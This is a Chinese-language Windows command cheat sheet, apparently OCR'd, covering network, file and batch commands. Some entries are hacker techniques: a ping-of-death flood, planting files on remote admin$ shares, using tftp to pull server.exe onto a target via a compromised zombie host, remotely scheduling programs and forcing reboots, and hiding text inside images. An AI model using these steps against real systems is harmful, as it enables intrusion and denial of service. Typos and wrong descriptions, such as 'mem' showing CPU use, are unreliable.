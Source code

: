 net password 密码 更改系统登陆密码
netstat -a 查看开启了哪些端口,常用netstat -an
netstat -n 查看端口的网络连接情况，常用netstat -an
netstat -v 查看正在进行的工作
netstat -p 协议名 例：netstat -p tcq/ip 查看某协议使用情况（查看tcp/ip协议使用情况）
netstat -s 查看正在使用的所有协议使用情况
nbtstat -A ip 对方136到139其中一个端口开了的话，就可查看对方最近登陆的用户名（03前的为用户名）-注意：参数-A要大写
tracert -参数 ip(或计算机名) 跟踪路由（数据包），参数：“-w数字”用于设置超时间隔。
ping ip(或域名) 向对方主机发送默认大小为32字节的数据，参数：“-l[空格]数据包大小”；“-n发送数据次数”；“-t”指一直ping。
ping -t -l 65550 ip 死亡之ping(发送大于64K的文件并一直ping就成了死亡之ping)
ipconfig (winipcfg) 用于windows NT及XP(windows 95 98)查看本地ip地址，ipconfig可用参数“/all”显示全部配置信息
tlist -t 以树行列表显示进程(为系统的附加工具，默认是没有安装的，在安装目录的Support/tools文件夹内)
kill -F 进程名 加-F参数后强制结束某进程(为系统的附加工具，默认是没有安装的，在安装目录的Support/tools文件夹内)
del -F 文件名 加-F参数后就可删除只读文件,/AR、/AH、/AS、/AA分别表示删除只读、隐藏、系统、存档文件，/A-R、/A-H、/A-S、/A-A表示删除除只读、隐藏、系统、存档以外的文件。例如“DEL/AR *.*”表示删除当前目录下所有只读文件，“DEL/A-S *.*”表示删除当前目录下除系统文件以外的所有文件
二：
del /S /Q 目录 或用：rmdir /s /Q 目录 /S删除目录及目录下的所有子目录和文件。同时使用参数/Q 可取消删除操作时的系统确认就直接删除。（二个命令作用相同）
move 盘符路径要移动的文件名　存放移动文件的路径移动后文件名 移动文件,用参数/y将取消确认移动目录存在相同文件的提示就直接覆盖
fc one.txt two.txt > 3st.txt 对比二个文件并把不同之处输出到3st.txt文件中，"> "和"> >" 是重定向命令
at id号 开启已注册的某个计划任务
at /delete 停止所有计划任务，用参数/yes则不需要确认就直接停止
at id号 /delete 停止某个已注册的计划任务
at 查看所有的计划任务
at ip time 程序名(或一个命令)/r 在某时间运行对方某程序并重新启动计算机
finger username @host 查看最近有哪些用户登陆
telnet ip 端口 远和登陆服务器,默认端口为23
open ip 连接到IP（属telnet登陆后的命令）
telnet 在本机上直接键入telnet 将进入本机的telnet
copy 路径文件名1　路径文件名2/y 复制文件1到指定的目录为文件2，用参数/y就同时取消确认你要改写一份现存目录文件
copy c:srv.exe ipadmin$ 复制本地c:srv.exe到对方的admin下
cppy 1st.jpg/b+2st.txt/a 3st.jpg 将2st.txt的内容藏身到1st.jpg中生成3st.jpg新的文件，注：2st.txt文件头要空三排，参数：/b指黑吧文件，/a指ASCLL格式文件
copy ipadmin$svv.exe c: 或:copyipadmin$*.* 复制对方admini$共享下的srv.exe文件（所有文件）至本地C：
xcopy 要复制的文件或目录树　目标地址目录名 复制文件和目录树，用参数/Y将不提示覆盖相同文件
tftp -i 自己IP(用肉机作跳板时这用肉机IP) get server.exe c:server.exe 登陆后，将“IP”的server.exe下载到目标主机c:server.exe 参数：-i指以黑吧模式传送，如传送exe文件时用，如不加-i 则以ASCII模式（传送文本文件模式）进行传送
tftp -i 对方IP　putc:server.exe 登陆后，上传本地c:server.exe至主机
ftp ip 端口 用于上传文件至服务器或进行文件操作，默认端口为21。bin指用黑吧方式传送（可执行文件进）；默认为ASCII格式传送(文本文件时)
route print 显示出IP路由，将主要显示网络地址Network addres，子网掩码Netmask，网关地址Gateway addres，接口地址Interface
arp 查看和处理ARP缓存，ARP是名字解析的意思，负责把一个IP解析成一个物理性的MAC地址。arp-a将显示出全部信息
start 程序名或命令 /max 或/min新开一个新窗口并最大化（最小化）运行某程序或命令
mem 查看cpu使用情况
attrib 文件名(目录名) 查看某文件（目录）的属性
attrib 文件名 -A -R -S -H 或 +A +R +S +H 去掉(添加)某文件的存档，只读，系统，隐藏 属性；用＋则是添加为某属性
dir 查看文件，参数：/Q显示文件及目录属系统哪个用户，/T:C显示文件创建时间，/T:A显示文件上次被访问时间，/T:W上次被修改时间
date /t 、 time /t 使用此参数即“DATE/T”、“TIME/T”将只显示当前日期和时间，而不必输入新日期和时间
set 指定环境变量名称=要指派给变量的字符 设置环境变量
set 显示当前所有的环境变量
set p(或其它字符) 显示出当前以字符p(或其它字符)开头的所有环境变量
pause 暂停批处理程序，并显示出：请按任意键继续....
if 在批处理程序中执行条件处理（更多说明见if命令及变量）
goto 标签 将cmd.exe导向到批处理程序中带标签的行（标签必须单独一行，且以冒号打头，例如：“：start”标签）
call 路径批处理文件名 从批处理程序中调用另一个批处理程序 （更多说明见call/?）
for 对一组文件中的每一个文件执行某个特定命令（更多说明见for命令及变量）
echo on或off 打开或关闭echo，仅用echo不加参数则显示当前echo设置
echo 信息 在屏幕上显示出信息
echo 信息 >> pass.txt 将"信息"保存到pass.txt文件中
findstr "Hello" aa.txt 在aa.txt文件中寻找字符串hello
find 文件名 查找某文件
title 标题名字 更改CMD窗口标题名字
color 颜色值 设置cmd控制台前景和背景颜色；0＝黑、1＝蓝、2＝绿、3＝浅绿、4＝红、5＝紫、6＝黄、7=白、8=灰、9=淡蓝、A＝淡绿、B=淡浅绿、C=淡红、D=淡紫、E=淡黄、F=亮白
prompt 名称 更改cmd.exe的显示的命令提示符(把C:、D:统一改为：EntSky )
三：
ver 在DOS窗口下显示版本信息